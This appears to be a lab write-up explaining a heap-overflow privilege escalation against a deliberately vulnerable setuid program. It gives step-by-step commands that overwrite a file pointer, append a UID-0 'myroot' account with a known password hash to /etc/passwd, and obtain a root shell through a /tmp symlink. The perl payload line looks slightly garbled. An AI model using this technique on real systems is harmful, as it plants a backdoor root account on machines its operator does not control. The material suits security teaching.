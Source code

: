 # Adding Root User By Using Heap Overflow

## Assumption

1. '/etc/notes' is owned by 'root'.
2. Program 'victim' is SETUID file and owned by 'root'.

## Blueprint

In victim.c, memory for 'buffer' is allocated first and then memory for 'datafile' is allocated.   
Strcpy() is used for 'buffer' and this program can write something in files which is owned by root!   
So I'll create a root user by writing user_info in '/etc/passwd'.    
>:~$ ./victim 'argument to exploit'

## Procedure

1. User_info format   
  In /etc/passwd...   
  ```
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  .
  .
  .
  yong:x:1000:1000:yong,,,:/home/yong:/bin/bash
  ```   

  Each field is separated by colon -> login name:password:uid:gid:user name:home directory:login shell   
  Password field is substituted by 'x' because of security.   
  In linux, real value of this field is H(password, salt) where H() is hash and salt is arbitrary two alphabets.   
  And the value is stored in shadow file.   
  If the password of 'yong' is 123456 and salt is "XX", then x is H("123456","XX").    
  By using crypting program 'cryption' attached, we can easily find H("123456", "XX") = XXVgr9a1cu6os.  

  ```
  /* You must link -lcrypt when compiling it*/
  :~$ gcc -o cryption cryption.c -lm -lcrypt
  ```
  So the string which has to be appended in '/etc/passwd' is "myroot:XXVgr9a1cu6os:0:0:USERNAME:/root:/bin/bash".    
  Here we have to focus the first two characters of hash value. It's just the salt we use!    
  So the password for 'myroot' is 123456 and when we enter "123456" for myroot's password, system will check    
  myroot's password field and take "XX" to salt and generate "XXVgr9a1cu6os".   
        
2. Symbolic file link   
  As we can see, the string for user_info should be end with '/bin/bash'(login shell).    
  But to overwrite 'datafile' to '/etc/passwd' by using overflow, argument which is passed to 'victim' should be end with '/etc/passwd'   
  So I'll use symbolic file link to make temp/etc/passwd->bin/bash
  ```
  :~$ mkdir /tmp/etc
  :~$ ln -s /bin/bash /tmp/etc/passwd
  :~$ ls -l /tmp/etc/passwd
  lrwxrwxrwx 1 yong yong 8 4월 16 22:43 /tmp/etc/passwd -> bin/bash
  ```
  Now, we can set loginshell of myroot to /tmp/etc/passwd! 
  
3. Making Command Line Argument
  First of all, we have to calculate the distance between 'buffer' and 'datafile' in victim.c
  In this case, we can easily calculate the distance by executing because this program gives debugging information    
  for buffer and datafile. It isn't realistic....    
  Since command line argument form is    
  
  >"myroot:XXVgr9a1cu6os:0:0:AAAAA........AAAA:/root:/tmp/etc/passwd"    
  
  the length of string from 'myroot' to '/tmp' should be same with the distance between 'buffer' and 'datafile'.   
  Let's assume the number of 'A' is k which satisfing this condition. Then we can add root user by 
  
  >./victim $(perl -e 'print "myroot:XXVgr9a1cu6os:0:0:" . "A: x k . ":/root:/tmp/etc/passwd"')  
  
  ```
  :~$ cat etc/passwd
   root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
  .
  .
  .
  yong:x:1000:1000:yong,,,:/home/yong:/bin/bash
  ?
  myroot:XXVgr9a1cu6os:0:0:AAAAA........AAAA:/root:/tmp/etc/passwd
  ```
  
  ```
  :~$ su myroot
  Password: 123456
  root@yong:/home/yong# whoami
  root
  ```
  
